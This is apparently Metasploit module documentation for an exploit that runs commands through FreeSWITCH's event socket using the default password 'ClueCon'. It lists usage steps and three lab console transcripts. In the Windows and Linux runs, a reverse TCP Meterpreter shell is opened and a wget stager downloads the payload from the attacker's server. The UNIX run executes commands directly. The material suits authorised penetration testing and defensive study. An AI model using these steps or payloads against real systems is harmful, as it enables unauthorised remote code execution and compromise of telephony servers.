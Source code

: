 ## Description

  This module uses the FreeSWITCH event socket interface
  to execute system commands using the `system` API command.

  The event socket service is enabled by default and listens
  on TCP port 8021 on the local network interface.


## Vulnerable Application

  [FreeSWITCH](https://freeswitch.com) is a free and open-source software defined
  telecommunications stack for real-time communication, WebRTC, telecommunications,
  video, and Voice over Internet Protocol.

  The [Event Socket](https://freeswitch.org/confluence/display/FREESWITCH/mod_event_socket)
  `mod_event_socket` is a TCP based interface to control FreeSWITCH and is enabled by default.

  The default values are to bind to 127.0.0.1 port 8021 and the default password is `ClueCon`.

  This module has been tested successfully on FreeSWITCH versions:

  1.6.10-17-726448d~44bit on FreeSWITCH-Deb8-TechPreview virtual machine;
  1.8.4~64bit on Ubuntu 19.04 (x64); and
  1.10.1~64bit on Windows 7 SP1 (EN) (x64).

  Source and Installers:

  * [Source Code Repository](https://github.com/signalwire/freeswitch)
  * [Installers](https://freeswitch.org/confluence/display/FREESWITCH/Installation)
  * [Virtual Machine](https://freeswitch.com/index.php/fs-virtual-machine/)


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/misc/freeswitch_event_socket_cmd_exec`
  3. Do: `set rhosts <ip>`
  4. Do: `set rport <port>` (default: `8021`)
  5. Do: `set password <password>` (default: `ClueCon`)
  6. Do: `set target <target>`
  7. Do: `run`
  8. You should get a session


## Options

### Password

  The password for the event socket. (default: `ClueCon`)


## Scenarios

### Windows PowerShell Target

```
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.242)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 2
target => 2
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (310 bytes) ...
[*] Sending stage (180291 bytes) to 172.16.191.242
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.242:50706) at 2019-11-02 17:31:33 -0400

meterpreter > getuid
Server username: TEST\user
meterpreter > pwd
C:\Program Files\FreeSWITCH
meterpreter > sysinfo
Computer        : TEST
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```


### Linux Dropper Target

```
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 1
target => 1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set lhost 172.16.191.165
lhost => 172.16.191.165
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmdstager::flavor wget
cmdstager::flavor => wget
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] Started reverse TCP handler on 172.16.191.165:4444 
[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (150 bytes) ...
[*] 127.0.0.1:1234 - Using URL: http://0.0.0.0:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Local IP: http://172.16.191.165:8080/WuWvURUHveqo5
[*] 127.0.0.1:1234 - Client 172.16.191.172 (Wget/1.16 (linux-gnu)) requested /WuWvURUHveqo5
[*] 127.0.0.1:1234 - Sending payload to 172.16.191.172 (Wget/1.16 (linux-gnu))
[*] Sending stage (985320 bytes) to 172.16.191.172
[*] 127.0.0.1:1234 - Command Stager progress - 100.00% done (120/120 bytes)
[*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.172:42478) at 2019-11-02 17:34:59 -0400
[*] 127.0.0.1:1234 - Server stopped.

meterpreter > getuid
Server username: uid=999, gid=999, euid=999, egid=999
meterpreter > pwd
/
meterpreter > sysinfo
Computer     : 172.16.191.172
OS           : Debian 8.5 (Linux 3.16.0-4-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```


### UNIX Generic Command Target

```
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec 
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > sessions -i 1 -C "portfwd add -l 1234 -p 8021 -r 127.0.0.1"
[*] Running 'portfwd add -l 1234 -p 8021 -r 127.0.0.1' on meterpreter session 1 (172.16.191.172)
[*] Local TCP relay created: :1234 <-> 127.0.0.1:8021
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set rport 1234
rport => 1234
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Unix (In-Memory)
   1   Linux (Dropper)
   2   PowerShell (In-Memory)
   3   Windows (In-Memory)
   4   Windows (Dropper)


msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set target 0
target => 0
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set payload cmd/unix/generic 
payload => cmd/unix/generic
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set cmd "id; uname -a"
cmd => id; uname -a
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > set verbose true
verbose => true
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > run

[*] 127.0.0.1:1234 - Login success
[*] 127.0.0.1:1234 - Sending payload (12 bytes) ...
[*] 127.0.0.1:1234 - Response: Content-Type: api/response
Content-Length: 159

uid=999(freeswitch) gid=999(freeswitch) groups=999(freeswitch)
Linux freeswitch-vm 3.16.0-4-amd64 #1 SMP Debian 3.16.36-1+deb8u1 (2016-09-03) x86_64 GNU/Linux

[*] Exploit completed, but no session was created.
msf exploit(multi/misc/freeswitch_event_socket_cmd_exec) > 
```
